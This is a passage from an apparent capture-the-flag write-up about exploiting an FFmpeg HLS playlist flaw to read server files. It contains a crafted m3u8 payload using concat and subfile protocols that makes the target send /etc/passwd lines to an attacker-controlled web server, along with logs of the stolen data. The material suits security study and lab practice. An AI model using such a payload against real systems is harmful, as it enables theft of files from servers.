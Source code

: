 On uploading `mal.avi`, there’s hit at the webserver, including a request for the header file and then exfil data:

```
10.10.11.157 - - [28/Jul/2022 09:45:21] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [28/Jul/2022 09:45:21] "GET ?root:x:0:0:root:/root:/bin/bash HTTP/1.1" 301 -

```

That’s the first line of an `/etc/passwd` file. Unfortunately, it gets cut at any newline character.

#### Read Next Line

Still following the hackerone report, to get the next line of the file, I’ll count that the first line had 32 characters in it (including the new line):

```

oxdf@hacky$ echo "root:x:0:0:root:/root:/bin/bash" | wc -c
32

```

Instead of using the `file` protocol, it’s now using the `subfile` [protocol](https://ffmpeg.org/ffmpeg-protocols.html#subfile) to read parts of a file. The number is based at 0 (despite what the hackerone report implies):

```

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.6/header.m3u8|subfile,,start,32,end,10000,,:///etc/passwd
#EXT-X-ENDLIST

```

On submitting, it returns the next line:

```
10.10.11.157 - - [28/Jul/2022 09:53:44] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [28/Jul/2022 09:53:44] "GET ?daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin HTTP/1.1" 301 -

```

#### Script Fails

I spent too long trying to write a script that would take a file name, fetch it, and print it correctly to the terminal (or allow for redirecting to a file). I started using Python’s `http.server`, but eventually gave up on that and pivoted to Flask. I made a nice script that worked great until I got a request with spaces in it:

```

oxdf@hacky$ python read.py /etc/passwd
 * Serving Flask app 'read' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```